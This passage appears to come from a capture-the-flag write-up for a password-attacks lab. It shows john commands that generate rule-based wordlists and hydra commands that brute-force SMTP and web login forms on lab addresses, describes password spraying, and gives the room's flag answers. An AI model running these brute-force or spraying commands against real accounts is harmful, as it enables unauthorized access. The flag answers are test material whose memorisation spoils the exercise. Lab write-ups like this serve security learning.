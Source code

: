 `john --wordlist=clinic.lst --rules=[Rule name] --stdout > [File where you want to save]`

run the bruteforce attack using generated password

`hydra -l pittman@clinic.thmredteam.com -P [generated list] smtp://[IP]:25`

#### ANSWER: !multidisciplinary00

#### Perform a brute-forcing attack against the phillips account for the login page at http://10.10.187.109/login-get using hydra? What is the flag?

as a password list, we gonna use clinic.lst
Here you can more about brute forcing login pages - https://russianblogs.com/article/1635894923/
`hydra -l phillips -P clinic.lst 10.10.6.182 http-get-form "/login-get/index.php:username=phillips&password=^PASS^:S=logout.php" -f`

#### ANSWER: Paracetamol

#### Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.6.182/login-post/. What is the flag?

#### Note: use the clinic.lst dictionary in generating and expanding the wordlist!

we should crate new list using default john the ripper rule - Single-Extra
`john --wordlist=clinic.lst --rules=Single-Extra --stdout > [File where you want to save]`
And run the command
`hydra -l burgess -P generated list [IP] http-post-form "/login-post/index.php:username=burgess&password=^PASS^:S=logout.php" -f`

#### Answer: OxytocinnicotyxO

#### [TASK 9] Password spray attack 
In this attack, an attacker will brute force logins based on list of usernames with default passwords on the application. For example, an attacker will use one password (say, Secure@123) against many different accounts on the application to avoid account lockouts that would normally occur when brute forcing a single account with many passwords.

#### Perform a password spraying attack to get access to the SSH://10.10.6.182 server to read /etc/flag. What is the flag?

The password format is season+ year + special character, so we need to randomly choose passwords and try to login
First, lets create a file with usernames like
admin
victim
dummy
adm
sammy
phillips
burgess
